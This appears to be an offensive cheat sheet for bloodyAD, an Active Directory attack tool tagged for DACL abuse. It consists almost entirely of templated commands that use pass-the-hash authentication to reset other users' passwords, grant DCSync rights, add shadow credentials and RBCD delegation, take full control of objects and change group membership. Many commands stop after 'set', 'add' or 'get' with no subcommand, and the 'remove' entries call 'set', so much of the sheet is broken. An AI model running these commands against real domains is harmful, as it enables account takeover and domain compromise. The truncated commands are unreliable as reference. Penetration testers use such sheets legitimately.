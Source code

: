 # bloodyAD

% windows, Active directory
#plateform/linux #target/remote  #cat/ATTACK/DACL-ABUSE

## auth (cred)
```bash
-u <user> -p <password>
```

## auth (pth)
```bash
-u <user> -p :<nt_hash>
```

## auth (ptt)
```bash
-k
```

## auth (cert)
```bash
-c <key_path>:<pem_path>
```

## cross-domain actions
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p
```

## set - change user password (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set password <target_user> '<password|Jubeaz12345!>' 
```

## set cross-domain - change user password (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <target_dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set password <target_user> '<password|Jubeaz12345!>' 
```

## set - add/replace/delete target attribute  (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```

## set - object onwer (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```



## add - new computer (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - DCSync right (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - DNS record (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - full control (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - groupMember (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - rbcd (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - shadowCredentials (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - uac (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - user (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```


## get - list children of an object (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get  
```
## get - DNS records (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get  
```
## get - membership (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get  
```
## get - object (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get  
```
## get - search (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get  
```
## get - writable (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get  
```

## remove - DCSync (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - DNS record (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - full control (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - groupMember (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - object (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - rbcd (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - shadowCredentials (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - uac (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```

